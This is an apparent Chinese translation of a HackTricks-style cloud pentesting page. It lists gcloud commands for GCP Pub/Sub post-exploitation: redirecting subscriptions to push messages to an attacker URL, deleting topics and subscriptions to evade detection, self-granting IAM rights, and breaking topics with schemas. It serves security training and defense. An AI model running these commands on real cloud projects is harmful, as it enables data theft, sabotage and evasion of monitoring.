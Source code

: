 # GCP - Pub/Sub 后期利用

{{#include ../../../banners/hacktricks-training.md}}

## Pub/Sub

有关 Pub/Sub 的更多信息，请查看以下页面：

{{#ref}}
../gcp-services/gcp-pub-sub.md
{{#endref}}

### `pubsub.topics.publish`

在主题中发布消息，适用于**发送意外数据**并触发意外功能或利用漏洞：
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

有助于防止订阅接收消息，可能是为了避免被检测。
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

有助于防止订阅接收消息，可能是为了避免被检测。\
即使有订阅附加到主题上，也可以删除该主题。
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

使用此权限更新主题的一些设置以干扰它，例如 `--clear-schema-settings`、`--message-retention-duration`、`--message-storage-policy-allowed-regions`、`--schema`、`--schema-project`、`--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

授予自己执行任何先前攻击的权限。

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

获取网络服务器中的所有消息：
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
创建一个订阅并使用它来 **拉取消息**：
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**删除订阅** 可能对干扰日志处理系统或类似的东西有用：
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

使用此权限更新某些设置，以便消息存储在您可以访问的地方（URL、Big Query 表、Bucket）或仅仅是为了干扰它。
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
### `pubsub.subscriptions.setIamPolicy`

授予自己执行之前提到的攻击所需的权限。

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

将一个模式攻击到一个主题，以便消息不符合该模式，从而导致主题中断。\
如果没有任何模式，您可能需要创建一个。
```json:schema.json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```

```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

这看起来像是在删除一个模式，但你将能够发送不符合该模式的消息。然而，由于模式将被删除，实际上没有消息会进入主题。因此这是**无用的**：
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

授予自己执行之前提到的攻击所需的权限。

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

这将创建所有未确认消息的快照并将它们放回订阅中。对于攻击者来说不是很有用，但在这里它是：
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{{#include ../../../banners/hacktricks-training.md}}
